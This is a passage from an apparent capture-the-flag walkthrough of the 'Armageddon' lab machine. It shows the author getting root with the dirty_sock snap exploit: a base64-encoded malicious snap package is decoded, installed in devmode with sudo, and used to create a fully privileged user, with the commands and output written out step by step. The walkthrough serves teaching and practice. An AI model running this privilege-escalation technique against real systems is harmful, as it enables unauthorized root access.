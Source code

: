 That's a malicious snap package that's been base64 encoded. We can just paste that in to our SSH session on the box to create the snap package on there:

```text
[brucetherealadmin@armageddon ~]$ python3 -c "print('aHNxcwcAAAAQII4DAAAAAAAAhgMAAAA///xICAAAAAAAAsAIAAAAAAAA
Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnq2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x
AABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAACAAw'+ 'A' * 4256 + '==')" | base64 -d > pencer.snap
```

One other thing to note in the dirty_sock script is this section:

```text
 post_payload = '''
--------------------------f8c156143a1caf97
Content-Disposition: form-data; name="devmode"
true
```

Now we can install our package:

```text
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install --devmode pencer.snap
dirty-sock 0.1 installed
```

And now we can switch to the newly created user dirty_sock with password of dirty_sock:

```text
[brucetherealadmin@armageddon ~]$ su dirty_sock
Password:
```

## Root Flag

This account can run anything as root. We can check that by looking at sudo permission:

```text
[dirty_sock@armageddon brucetherealadmin]$ sudo -l
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:
    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.
[sudo] password for dirty_sock: 
Matching Defaults entries for dirty_sock on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User dirty_sock may run the following commands on armageddon:
    (ALL : ALL) ALL
```

All that's left now is switch user to root and grab the flag:

```text
[dirty_sock@armageddon brucetherealadmin]$ sudo su
[root@armageddon brucetherealadmin]# cat /root/root.txt 
<HIDDEN>
```

All done. See you next time.
